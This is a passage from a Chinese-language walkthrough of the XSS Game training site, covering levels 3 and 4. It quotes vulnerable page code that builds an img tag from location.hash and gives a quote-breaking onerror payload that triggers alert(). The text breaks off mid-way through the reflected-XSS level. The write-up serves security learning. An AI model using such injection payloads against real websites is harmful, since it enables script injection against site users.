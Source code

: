 当看到url是：

```
https://xss-game.appspot.com/level3/frame#1
```

可控参数是在**#**后面的时候，大概可以猜测它是一个DOM XSS了，因为script可以通关window.location.hash获取到这个参数，

所以直接搜索：location.hash

问题定位：

```js
<script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
		
    .....
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
	.....
    </script>
```

可以看到，unescape是进行url解码，所以num就是输入的字符，没有做任何过滤，所以在

```
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

中，使用单引号闭合：payload

```
' onerror='alert()'
```

```
<img src="/static/level3/cloud" onerror="alert()" .jpg'="">
```

### 第四关：

反射型 xss

检查元素create timer发现表单：

```
<form action="" method="GET">
  <input id="timer" name="timer" value="3">
  <input id="button" type="submit" value="Create timer"> 
</form>
```

又是当前页面处理，搜索timer，没有在script中发现，说明是后端处理，看不见

但是肯定有html响应返回，去network查看，发现?timer=xxx的响应：
